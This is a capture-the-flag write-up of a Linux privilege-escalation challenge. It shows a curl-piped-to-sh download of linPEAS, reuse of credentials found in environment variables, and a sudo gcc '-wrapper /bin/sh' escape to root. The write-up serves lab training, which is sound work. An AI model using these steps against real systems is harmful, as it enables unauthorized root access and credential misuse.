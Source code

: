 # CTF Writeup:  Town Pulse

## Challenge Overview
* **Category:** OS Exploitation
* **Difficulty:** ["Easy"]
* **Description:** We have access to a linux box, need to find vulnerabile configuration to escalate privileges and find flag. 


## Tools Used

- [linPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)
- [GTFOBins](https://gtfobins.github.io/)
- bash

---

## Solution

Usual disclaimer here: the following solution was the one that worked and there was some trial and error to find it. Omitting those dead-ends for brevity.  

### Step 1: Initial Access

```bash
ssh Pentester@<ip>

# no response
```

```bash
nmap -sV <ip>

#shows diff port
```

```bash
ssh -p 2222 Pentester@<ip>
```


Challenge requires privilege escalation so let's go script kiddie and fetch a tool to search for privilege escalations ("privesc" as it's call in "the biz"):

```bash
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh

```

Under Environment we see `JOAN_TEMPORARY_CREDS=jojocreds1`

Well well well. For reasons mysterious there are temp creds for another user in our environment of our account. Let's try sshing into their account and see what permissions they have. Fingers crossed they're in sudoers and we can use their privesc ours **sinister laughing**. Which account though? 

```bash
ls /home/
# shows JOan 
```
Its probably the joan account. 

```bash

ssh joan@localhost
# no response
```

---

### Step 2: Priv Esc

Now we have access to joan's account, see what groups she's in

```bash
groups
Joan sudo
```

Cool, now let's add our pentester account to sudoers

```bash
sudo usermod -aG sudo Pentester
Sorry, user Joan is not allowed to execute '/usr/sbin/usermod -aG sudo Pentester' as root on dad5f987a15f."
```

Rubbing the brow here as I was heading for a PB for unfinished challenges in this event. Thankfully team-work makes the dream work and I looked to the east for a teammate wizard saviour:

![image](./gandalf-white.gif)

Lol, thanks wizard 🧙 10 seconds, one command, and a URL later: 

```bash
sudo -l
(ALL) NOPASSWD: /usr/bin/gcc
```

[https://gtfobins.github.io/gtfobins/gcc#sudo]

Doopdeedoop:

```bash
gcc -wrapper /bin/sh,-s .
sudo usermod -aG sudo Pentester
exit
exit
# to log out the pentester. log back in
```


```bash
ssh -p 2222 Pentester@<ip>
```

```bash
groups
Pentester sudo
```

See what command we can run
```bash
sudo -l
(ALL) NOPASSWD: /usr/bin/gcc
```

Run that again. 

---

### Step 3: Flag Retrieval

Now we have root, the flag's gotta be here somewhere, normally just use find (looking for flag.txt) or grep (looking for FLAG within a file) on the entire file system. 

```bash
find / -name flag.txt -type f
/root/flag.txt
cat /root/flag.txt
FLAG{7H15_SUDO_C00K3D_R007}
```
![image](./victory.gif)


---

## Notes

- Don't be afraid to ask for help when you get blocked. Difficult for you can be easy for someone else and vice versa. 
- As a team, set up some tools in comms (like threads in channels) to share progress on challenges.
- Linpeas and gftobins are l337h4x0r

---


